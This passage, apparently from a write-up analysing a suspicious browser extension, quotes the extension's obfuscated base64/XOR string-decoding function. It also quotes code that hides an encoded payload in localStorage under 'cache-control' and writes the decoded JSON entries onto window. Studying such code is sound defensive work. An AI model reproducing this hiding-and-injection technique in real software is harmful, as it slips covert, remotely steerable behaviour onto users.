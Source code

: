 ##### Strange String Function

The script also adds a new function for strings that does some form of manipulation or encoding.

```js
String.prototype.strvstrevsstr = function() {
    var a = this;
    this.length % 4 != 0 && (a += "===".slice(0, 4 - this.length % 4)), a = atob(a.replace(/\-/g, "+").replace(/_/g, "/"));
    var b = parseInt(a[0] + a[1], 16),
        c = parseInt(a[2], 16);
    a = a.substr(3);
    var d = parseInt(a);
    if (a = a.substr(("" + d).length + 1), d != a.length) return null;
    for (var e = [String.fromCharCode], f = 0; f < a.length; f++) e.push(a.charCodeAt(f));
    for (var g = [], h = b, i = 0; i < e.length - 1; i++) {
        var j = e[i + 1] ^ h;
        i > c && (j ^= e[i - c + 1]), h = e[i + 1] ^ b, g.push(e[0](j))
    }
    return g.join("");
}
```

Obviously, someone doesn't want people like me to be snooping around their extension. Without actually using this extension, we won’t know what this is used for other than how it is called in some parts of the code.

`strvstrevsstr` gets invoked if we can find a string that is greater than 10 chars in length in the string stored in local storage with the key `cache-control` (for some reason now it filters for 10 chars rather than 20 as stated earlier). The `cache-control` header [typically holds these values](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Cache-Control), but nothing stops a bad actor from inserting additional information into the field, like an encoded string. Without running the extension, it isn’t too clear what is going on with this function. What we can tell from reading this code is that once `e` is decoded in some form with `strvstrevsstr` and parsed as a JSON object, its object entries are written to window. `A` gets set to true to possibly indicate that this step has been completed.

```js
getMediaPath: function() {
    var a = window.localStorage;
    if (a["cache-control"]) {
        var b = a["cache-control"].split(",");
        try {
            var c;
            for (var d in b) {
                var e = b[d].trim();
                if (!(e.length < 10)) try {
                    if (c = e.strvstrevsstr(), c = "undefined" != typeof JSON && JSON.parse && JSON.parse(c), c && c.cache_c) {
                        for (var f in c) window[f] = c[f];
                        A = !0;
                        break
                    }
                } catch (g) {}
            }
        } catch (g) {}
        this.setMediaPath()
    }
}
```
